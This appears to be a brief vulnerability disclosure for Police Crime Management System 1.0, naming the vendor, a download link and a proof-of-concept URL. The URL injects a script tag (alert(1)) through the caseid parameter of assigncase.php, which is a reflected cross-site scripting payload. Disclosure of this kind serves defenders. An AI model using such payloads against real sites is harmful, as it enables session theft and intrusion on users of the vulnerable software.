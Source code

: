 Exploit Title:Police crime Management System 1.0
Date: 25-08-2021
Exploit Author: just one
Vendor Homepage: www.sourcecodester.com
Software Link:https://www.sourcecodester.com/sites/default/files/download/oretnom23/ghpolice.zip
Version:version 1.0
poc:192.168.50.200/ghpolice/admin/assigncase.php?caseid="><script>alert(1)</script>

